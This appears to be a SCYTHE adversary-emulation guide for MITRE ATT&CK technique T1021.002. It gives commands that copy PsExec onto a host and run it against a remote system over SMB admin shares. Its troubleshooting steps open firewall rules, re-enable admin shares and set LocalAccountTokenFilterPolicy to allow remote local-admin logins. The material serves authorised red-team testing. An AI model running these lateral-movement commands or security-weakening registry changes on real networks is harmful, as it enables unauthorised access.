 #  T1021.002 - Remote Services: SMB/Windows Admin Shares

Adversaries may use Valid Accounts to interact with a remote network share using Server Message Block (SMB). The adversary may then perform actions as the logged-on user.

SMB is a file, printer, and serial port sharing protocol for Windows machines on the same network or domain. Adversaries may use SMB to interact with file shares, allowing them to move laterally throughout a network. Linux and macOS implementations of SMB typically use Samba.

Windows systems have hidden network shares that are accessible only to administrators and provide the ability for remote file copy and other administrative functions. Example network shares include C$, ADMIN$, and IPC$. Adversaries may use this technique in conjunction with administrator-level Valid Accounts to remotely access a networked system over SMB, to interact with systems using remote procedure calls (RPCs), transfer files, and run transferred binaries through remote Execution. Example execution techniques that rely on authenticated sessions over SMB/RPC are Scheduled Task/Job, Service Execution, and Windows Management Instrumentation. Adversaries can also use NTLM hashes to access administrator shares on systems with Pass the Hash and certain configuration and patch levels.

## Import the Compound Action into SCYTHE
1. From the SCYTHE GUI, click Threat Manager - Migrate Threats
2. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
3. Click Import and OK when complete
4. Click Threat Manager - Threat Catalog
5. Find the imported Compound Action and click the tag icon 
6. Tag the MITRE ATT&CK Technique for the Compound Action

## Automated Emulation with SCYTHE
1. Create a new campaign
2. Select the Compound Action by MITRE ATT&CK tag

## Manual Emulation with SCYTHE
1. `loader --load run`
    * Loads the `run` module, which creates new processes.
2. `run powershell -c type C:\emulations\lateral.txt`
    * Grabs the IP address or hostname of a remote system.
3. `run powershell -c $env:TEMP`
    * Grabs the enviornmental veriable of the user's temporary directory to save PSExec.exe.
4. `loader --load downloader`
    * Load the `downloader` module, which is will be used to place a file from the VFS onto the target's filesystem.
5. ```downloader --src VFS:/shared/tools/PsExec.exe --dest $(3).response["result"].strip(\"\\r\\n\").strip(\"\\n\")\PsExec.exe```
    * This commands makes use of special SCYTHE Automation Language functions that are described in the table in Section 2.2 of the SCYTHE User Guide.
    * Here we place a file from the VFS into the temporary user directory we found in step 3. Let's unpack each part:
        * `downloader --src VFS:/shared/tools/PsExec.exe` - Use the `downloader` module to place a file from the VFS onto the target's filesystem. This assumes that there is a file in the VFS at the path specified. The file is available in the VFS folder.
        * `$(3).response` - Get the file path from step 3.
        * After all portions are evaluated, the result is the directory path + "PsExec.exe" as the final path of where the file should be placed. The file will be copied from the VFS and written to that path.
6. `run powershell -c Start-Process -FilePath $(3).response["result"].strip(\"\\r\\n\").strip(\"\\n\")\PsExec.exe -ArgumentList \"-accepteula \\$(2).response["result"].strip(\"\\r\\n\").strip(\"\\n\") ipconfig\" -ErrorAction SilentlyContinue -Wait -NoNewWindow`
    * This command runs PsExec.exe against the remote host from step 2.
7. STEP = CLEANUP
8. `run powershell del $(3).response["result"].strip(\"\\r\\n\").strip(\"\\n\")\PsExec.exe`
    * Deletes the PsExec.exe from the user's temporary folder.
9. `controller --shutdown`
    * Shuts down the SCYTHE client.

## Troubleshooting
This threat tries to connect to a remote system and authenticate with the credentials of the process the SCYTHE client is running on. There may be multiple reasons for connections to fail, below are some troubleshooting steps to take.

1. First try to connect to the remote system by running the following from a cmd.exe:
    * `powershell Test-NetConnection -ComputerName <IP/hostname> -Port 445`

2. If port 445 is not accesisble, you need to enable it on the target system. From an elevated cmd.exe on the target system run:
    * `netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes`

3. Test again from the remote system:
    * `net view \\192.168.146.130 /all`

4. You may need to enable the shares, on the target system run the following from an elevated prompt:
    * `reg add HKLM\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters /f /v AutoShareWks /t REG_DWORD /d 0`

5. If you are using the local administrator account, you will need to add this registry key to allow login on the target system. From an elevated prompt on the target system run:
    * `reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /f /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1`

6. The network profile may be set to public, check with an elevate PowerShell prompt:
    * `Get-NetConnectionProfile`
    * `Set-NetConnectionProfile -Name "Network" -NetworkCategory Private`